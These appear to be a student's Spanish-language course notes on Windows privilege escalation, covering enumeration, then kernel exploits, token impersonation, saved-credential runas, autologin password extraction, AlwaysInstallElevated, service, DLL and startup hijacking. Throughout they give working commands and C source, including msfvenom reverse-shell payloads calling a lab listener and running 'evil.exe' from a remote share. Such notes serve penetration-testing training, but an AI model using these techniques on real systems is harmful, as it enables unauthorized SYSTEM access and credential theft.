



Windows Privilege Escalation
Notas tomadas durante el curso.
Índice
- Initial Enumeration
- System Enumeration
- User Enumeration
- Network Enumeration
- Password Hunting
- AV and Firewall Enumeration
- Exploring Automated Tools
- Escalation Paths
- Kernel Exploits
- Passwords
- Windows Subsystem for Linux
- Token Impersonation
- getsystem
- RunAs
- Windows Autologin
- Registry
- Executable Files
- Startup Applications
- DLL Hijacking
- Service Permissions (Paths)
- CVE-2019-1388
- Recursos y referencias
Initial Enumeration
System Enumeration
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic qfe get Caption,Descrption,HotFixID,InstalledON # Parches
wmic logicaldisk get Caption,Descrption,ProviderName # Unidades extraíbles
User Enumeration
whoami
whoami /priv
whoami /groups
whoami /all
net user
net user <user>
net localgroup
net localgroup <group>
Network Enumeration
ipconfig
ipconfig /all
arp -a # Tablas arp (útil para laboratorios)
route print # Tabla de rutas
netstat -ano # Puertos abiertos
Password Hunting
Verificar guías dadas (PayloadsAllTheThings)
AV and Firewall Enumeration
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
Exploring Automated Tools
Escalation Paths
Kernel Exploits
Hacer enumeración con cualquiera de las herremientas antes mencionadas y se debería ver información si es vulnerable a algún exploit de kernel, posteriormente se puede buscar en esta lista o el id en específico como tal, ejemplo: MS10-015.
Github - Windows Kernel Exploits
Passwords
Verificar guías dadas
Windows Subsystem for Linux
Verificar guías dadas
Token Impersonation
What are tokens?
Llaves temporales que permiten el acceso a un sistema/red sin tener que proveer las credenciales cada que se tiene acceso a un archivo. Como las cookies para las computadoras.
Existen dos tipos: - Delegate - Creado para loguearse a una máquina o hacer uso del escritorio remoto. - Impersonate - "no-interactive" tal como el montaje de una unidad de almacenamiento en red o un script de logueo de dominio.
Identificación
whoami /priv

Permisos: SeAssignPrimaryToken y SeImpersonatePrivilege
getsystem
Dentro de una sesión de meterpreter ejecutar getsystem el cuál hace uso de de diferentes métodos para escalar los privilegios.
Se encuentra aquí un artículo para ver detalles.
RunAs
Ejecutar cmdkey /list para verificar la existencia de credenciales guardadas.
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator
Posteriormente usar runas con la opción savecred para usar las credenciales guardadas. Ejemplo:
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
Más info en PayloadAllTheThings
Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Registry
Autorun
Buscar directorios que cuenten con FilePerms: Everyone [AllAccess], si se ejecuta un programa, se puede sobreescribir el programa.

AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated REG_DWORD 0x1
# Generar msi
msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f msi -o setup.msi
# Ejecutar
msiexec /quiet /qn /i C:\Temp\setup.msi
Service Escalation regsvc
Si el usuario pertenece a NT AUTHORITY\INTERACTIVE y tiene el permiso de FullControl en el registro, es explotable. Ejemplo:
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Path : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\regsvc
Owner : BUILTIN\Administrators
Group : NT AUTHORITY\SYSTEM
Access : Everyone Allow ReadKey
NT AUTHORITY\INTERACTIVE Allow FullControl # Permiso
NT AUTHORITY\SYSTEM Allow FullControl
BUILTIN\Administrators Allow FullControl
Audit :
Sddl : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
Modificar de windows_service.c (código fuente a continuación) el payload de system y compilar:
Copiar x.exe a windows y ejecutar:
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
Código fuente de windows_service.c.
#include <windows.h>
#include <stdio.h>
#define SLEEP_TIME 5000
SERVICE_STATUS ServiceStatus;
SERVICE_STATUS_HANDLE hStatus;
void ServiceMain(int argc, char** argv);
void ControlHandler(DWORD request);
//add the payload here
int Run()
{
system("whoami > c:\\windows\\temp\\service.txt");
return 0;
}
int main()
{
SERVICE_TABLE_ENTRY ServiceTable[2];
ServiceTable[0].lpServiceName = "MyService";
ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
ServiceTable[1].lpServiceName = NULL;
ServiceTable[1].lpServiceProc = NULL;
StartServiceCtrlDispatcher(ServiceTable);
return 0;
}
void ServiceMain(int argc, char** argv)
{
ServiceStatus.dwServiceType = SERVICE_WIN32;
ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
ServiceStatus.dwWin32ExitCode = 0;
ServiceStatus.dwServiceSpecificExitCode = 0;
ServiceStatus.dwCheckPoint = 0;
ServiceStatus.dwWaitHint = 0;
hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler);
Run();
ServiceStatus.dwCurrentState = SERVICE_RUNNING;
SetServiceStatus (hStatus, &ServiceStatus);
while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
{
Sleep(SLEEP_TIME);
}
return;
}
void ControlHandler(DWORD request)
{
switch(request)
{
case SERVICE_CONTROL_STOP:
ServiceStatus.dwWin32ExitCode = 0;
ServiceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus (hStatus, &ServiceStatus);
return;
case SERVICE_CONTROL_SHUTDOWN:
ServiceStatus.dwWin32ExitCode = 0;
ServiceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus (hStatus, &ServiceStatus);
return;
default:
break;
}
SetServiceStatus (hStatus, &ServiceStatus);
return;
}
Executable Files
Si se cuenta con File Permissions: Everyone [AllAccess] en el binario de un servicio, se puede modificar el binario e inicar el servicio.

msfvenom -p windows/shell_reverse_tcp lhost=10.18.12.69 lport=1234 -f exe -o filepermservice.exe
# Remplazar binario e iniciar servicio en windows
sc start filepermsvc
Startup Applications
Si el comando devuelve BUILTIN\Users:(F) asociando "full access" con la F es explotable. Documentación acerca de icacls y la representación de los permisos.
Colocar payload.exe en C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup y esperar el logueo del administrador o reinicio.
DLL Hijacking
Requisitos:
- Se requiere encontrar un proceso que ejecute con otros privilegios (movimiento lateral) al cuál le falte una dll.
- Tener permisos de escritura en un folder donde será buscada la dll (probablemente el directorio del ejecutable u otro dentro del path del sistema).
WinPEAS verificará si se cuenta con permisos de escritura en algún folder que esté en PATH del sistema. Otras herramientas como Powersploit pueden identificar las vulnerabilidades con las funciones Find-ProcessDLLHijack, Find-PathDLLHijack and Write-HijackDll.

Se genera una dll y se ubica esta en el folder identificado usando el formato de metasploit:
O una compilada:
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
ExitProcess(0);
}
return TRUE;
}
Service Permissions (Paths)
Binary Paths
WinPEAS puede identificar permisos de modificación en servicios.

Una vez identificado se puede cambiar y verificar con:
# Cambio de valor de binpath
C:\Users\user>sc config daclsvc binpath= "c:\temp\exp.exe"
sc config daclsvc binpath= "c:\temp\exp.exe"
[SC] ChangeServiceConfig SUCCESS
# Validación de cambio
C:\Users\user>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: daclsvc
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 3 DEMAND_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : "c:\temp\exp.exe"
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : DACL Service
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem
# Iniciar servicio
sc start daclsvc
Unquoted Service Paths
En la sección de información de servicios, WinPEAS puede identificar servicios que se pueden iniciar manualmente y se encuentran mal configurados sin comillas en los servicios.

Al identificarse se puede generar payload con msfvenom y guardar en la ruta sin comillas como:
Al iniciar el servicio, se ejecutará el binario:
CVE-2019-1388
Se puede realizar un bypass al UAC mediante este CVE, identificado por WinPEAS mediante la instalación de parches KB.

https://github.com/jas502n/CVE-2019-1388